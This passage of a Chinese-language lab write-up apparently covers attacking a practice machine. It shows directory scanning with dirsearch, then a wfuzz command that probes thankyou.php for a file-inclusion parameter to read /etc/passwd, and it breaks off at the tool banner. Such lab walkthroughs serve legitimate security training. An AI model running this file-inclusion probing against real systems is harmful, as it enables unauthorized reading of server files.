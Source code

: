 
## web渗透

1. 访问主页
    
    ![image.png](image%2030.png)
    
2. 扫描目录，没什么可以关注的
    
    ```python
    dirsearch -u 192.168.75.175 -x 403
    //
    [13:40:35] Starting:
    [13:40:56] 200 -    4KB - /contact.php
    [13:40:56] 301 -  184B  - /css  ->  http://192.168.75.175/css/
    [13:41:00] 200 -    6KB - /faq.php
    [13:41:01] 200 -   17B  - /footer.php
    [13:41:03] 301 -  184B  - /images  ->  http://192.168.75.175/images/
    [13:41:25] 200 -  852B  - /thankyou.php
    ```
    
3. 我们看官网下的小提示：这个特定的入口点可能很难识别，但它确实存在。您需要寻找一些不寻常的东西（刷新页面时会发生变化的东西），我们可以注意到每次提交`footer`页面的年份就会不一样
    
    ![image.png](image%2031.png)
    
    可能入口就存在页脚里
    
4. 访问`/footer.php` ，一直刷新年份也会变，所以就是`thankyou`页面包含了`footer.php` ,可能存在参数来包含`footer.php` ,使用`wfuzz`来尝试混淆出参数
    
    ```python
    # 尝试包含 /etc/passwd
    wfuzz -c -w /usr/share/wfuzz/wordlist/general/big.txt --hh 851 'http://192.168.75.175/thankyou.php?FUZZ=/etc/passwd'
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
